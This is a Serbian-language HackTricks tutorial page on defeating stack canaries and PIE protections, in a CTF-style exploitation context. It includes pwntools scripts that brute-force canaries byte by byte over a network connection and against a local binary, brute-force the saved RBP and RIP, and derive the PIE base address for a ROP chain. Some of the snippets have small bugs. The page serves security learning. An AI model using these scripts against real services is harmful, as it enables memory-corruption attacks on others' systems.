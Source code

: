 <details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>


**Ako se suočavate sa binarnim fajlom zaštićenim kanarincem i PIE (Position Independent Executable), verovatno ćete morati da pronađete način da ih zaobiđete.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Imajte na umu da **`checksec`** možda neće otkriti da je binarni fajl zaštićen kanarincem ako je statički kompajliran i nije u mogućnosti da identifikuje funkciju.\
Međutim, možete ručno primetiti ovo ako primetite da se vrednost čuva na steku na početku poziva funkcije i ta vrednost se proverava pre izlaska.
{% endhint %}

# Brute force kanarinca

Najbolji način za zaobilaženje jednostavnog kanarinca je ako je binarni fajl program koji **forkuje podprocese svaki put kada uspostavite novu konekciju** sa njim (mrežna usluga), jer će se svaki put kada se povežete **koristiti isti kanarinac**.

Zatim, najbolji način za zaobilaženje kanarinca je jednostavno **brute-force-ovanje po karakteru**, i možete utvrditi da li je pogodak tačan proverom da li se program srušio ili nastavlja svoj redovni tok. U ovom primeru funkcija **brute-force-uje 8 bajtova kanarinca (x64)** i razlikuje između tačno pogodjenog bajta i pogrešnog bajta samo **proverom** da li je **server poslao odgovor** (drugi način u **drugim situacijama** može biti korišćenje **try/except**):

## Primer 1

Ovaj primer je implementiran za 64 bita, ali se lako može implementirati i za 32 bita.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Primer 2

Ovo je implementirano za 32 bita, ali se lako može promeniti za 64 bita.\
Takođe, obratite pažnju da za ovaj primer **program očekuje prvo bajt koji označava veličinu unosa** i zatim payload.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Ispisivanje kanara

Još jedan način za zaobilaženje kanara je da ga **ispisujete**.\
Zamislite situaciju u kojoj je **program podložan** preplavljivanju steka i može izvršiti funkciju **puts** koja **ukazuje** na **deo** preplavljenog steka. Napadač zna da je **prvi bajt kanara nula bajt** (`\x00`) i da su ostali bajtovi kanara **slučajni**. Zatim, napadač može stvoriti preplavljivanje koje **prepisuje stek sve do prvog bajta kanara**.\
Zatim, napadač **poziva funkcionalnost puts** na sredini payloada koja će **ispisati ceo kanar** (osim prvog nula bajta).\
Sa ovim informacijama, napadač može **kreirati i poslati novi napad** znajući kanar (u istoj sesiji programa).

Očigledno, ova taktika je veoma **ograničena** jer napadač mora biti u mogućnosti da **ispisuje** sadržaj svog **payloada** kako bi **izvukao** kanar, a zatim biti u mogućnosti da kreira novi payload (u **istoj sesiji programa**) i **pošalje** pravi preplavljivanje bafera.\
CTF primer: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

Da biste zaobišli PIE, morate **procuriti neku adresu**. Ako binarni fajl ne procuri nikakve adrese, najbolje je da **brute-force-ujete RBP i RIP sačuvane na steku** u ranjivoj funkciji.\
Na primer, ako je binarni fajl zaštićen i kanarom i PIE-om, možete početi sa brute-force-ovanjem kanara, a zatim će **sledećih** 8 bajtova (x64) biti sačuvani **RBP**, a **sledećih** 8 bajtova će biti sačuvani **RIP**.

Da biste brute-force-ovali RBP i RIP iz binarnog fajla, možete zaključiti da je tačan bajt koji je pogodjen ako program nešto izbaci ili jednostavno ne padne. **Ista funkcionalnost** koja je pružena za brute-force-ovanje kanara može se koristiti i za brute-force-ovanje RBP i RIP:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Dobijanje bazne adrese

Poslednja stvar koju trebate da pobedite PIE je da izračunate **korisne adrese iz procurjelih** adresa: **RBP** i **RIP**.

Iz **RBP**-a možete izračunati **gde pišete svoj shell na steku**. Ovo može biti veoma korisno da biste znali gde ćete napisati string _"/bin/sh\x00"_ unutar steka. Da biste izračunali udaljenost između procurjelog RBP-a i vašeg shell koda, jednostavno postavite **prekidnu tačku nakon što procuri RBP** i proverite **gde se nalazi vaš shell kod**, a zatim možete izračunati udaljenost između shell koda i RBP-a:
```python
INI_SHELLCODE = RBP - 1152
```
Iz **RIP**-a možete izračunati **baznu adresu PIE binarnog fajla**, što će vam biti potrebno da biste kreirali **validan ROP lanac**.\
Da biste izračunali baznu adresu, jednostavno izvršite `objdump -d vunbinary` i proverite poslednje adrese disasemblovane:

![](<../../.gitbook/assets/image (145).png>)

U ovom primeru možete videti da je potrebno samo **1 bajt i pol** da biste locirali sav kod, zatim, bazna adresa u ovom slučaju će biti **procureni RIP, ali završava na "000"**. Na primer, ako je procurio _0x562002970**ecf**_, bazna adresa je _0x562002970**000**_.
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
